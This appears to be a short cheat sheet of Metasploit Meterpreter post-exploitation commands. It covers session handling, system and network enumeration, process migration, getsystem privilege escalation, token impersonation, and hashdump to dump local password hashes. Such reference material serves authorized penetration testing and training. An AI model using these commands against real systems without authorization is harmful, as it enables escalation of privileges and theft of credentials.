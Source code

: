 Sessions: list and interact
```
sessions -l
sessions -i 1
```

Meterpreter basics (works on Windows and Linux unless noted)
```
help
sysinfo
getuid
getpid
getprivs
```

Network info
- Windows:
```
ipconfig
arp
```
- Linux:
```
ifconfig
arp
```

Process listing and migration (stabilize your session)
```
ps
# Pick a stable, long-lived user process (e.g., explorer.exe on Windows) and note its PID
migrate <PID>
getuid
```

Privilege escalation (Windows)
```
load priv
getsystem
getuid
```

Token-related (may require incognito; only if available in your build)
```
# If needed/available:
load incognito
list_tokens -u
impersonate_token "DOMAIN\\User"
# Revert later:
rev2self
```

Dump local password hashes (requires SYSTEM; Windows)
```
hashdump
```
